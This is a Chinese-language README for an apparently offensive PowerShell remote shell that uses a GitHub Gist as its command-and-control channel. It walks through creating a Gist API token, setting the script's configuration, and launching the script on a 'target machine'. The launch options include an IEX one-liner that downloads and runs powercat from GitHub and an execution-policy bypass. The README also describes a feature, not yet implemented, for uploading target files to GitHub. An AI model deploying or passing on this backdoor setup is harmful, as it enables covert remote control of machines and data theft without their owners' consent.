 #Powershell Github Shell
	###Author:zshell
	###Blog:http://www.0x7c.com
	###Github:https://github.com/zlocal/Powershell-Github-Shell
	###Demo Result Gist:https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e

使用方法：
1，创建github账户，访问https://github.com/settings/tokens/new，选中 gist   Create gists ，创建访问Gists的token.
2, 访问 https://gist.github.com/ ，创建一个Gist，属性最好为private,只有自己能访问查看结果，名称为cmd.例：
为了展示，我设置了public https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e
	Command:"time /T"
	ReadFile:"c:/windows/temp/1.txt"
	WriteFile:"http://www.github.com/raw/1.zip c:/wnidows/temp/2.txt"
	Powershell:"Get-Process | Out-String"
	Command:"whoami"
其中
Command后是想要执行的cmd命令，功能已测试OK
ReadFile是上传目标机器上的文件到Github，暂未实现
WriteFile下载文件到目标机器，暂未实现
Powershell后是可以执行的Powershell指令，暂未实现

2, 修改Powershell脚本的头部配置信息
$gistsUser="gitusername";		# github的用户名
$gistsApiToken="gittoken";		# 上步中得到的token ，例eed4239e439034a92fc4cbe0fbd2ca906999a9f1
$checkTime=60;				# 每次获取命令结果需要等待的时间，秒为单位

3, 使powershell在目标机器上执行
Powershell执行方法
一句话远程加载 
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

一句话本地加载
powershell IEX ([System.IO.File]::readAllText('PowershellGitShell.ps1'));

一句话文件执行
powershell -executionPolicy bypass -File "c:/test/PowershellGitShell.ps1"

4，可以修改cmd gist的内容，在$checkTime秒后刷新网页，结果会在评论中。结果需要使用URL DECODE解码。
